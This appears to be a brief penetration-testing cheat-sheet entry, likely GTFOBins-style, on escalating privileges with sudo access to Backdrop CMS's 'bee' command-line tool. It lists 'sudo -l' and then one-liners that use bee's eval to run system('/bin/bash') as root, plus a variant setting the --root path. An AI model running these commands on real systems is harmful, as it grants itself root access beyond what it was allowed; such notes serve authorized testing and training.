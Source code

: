 ```bash
sudo -l
```
#### [GTFOBins](https://gtfobins.github.io)

```
#BackDrop CMS 
sudo bee eval "system('/bin/bash');"

#In case of `The required bootstrap level for 'eval' is not ready.` Error
#Find the application path  - generally in /var/www/html
sudo /usr/local/bin/bee --root=/var/www/html eval "system('/bin/bash');"
```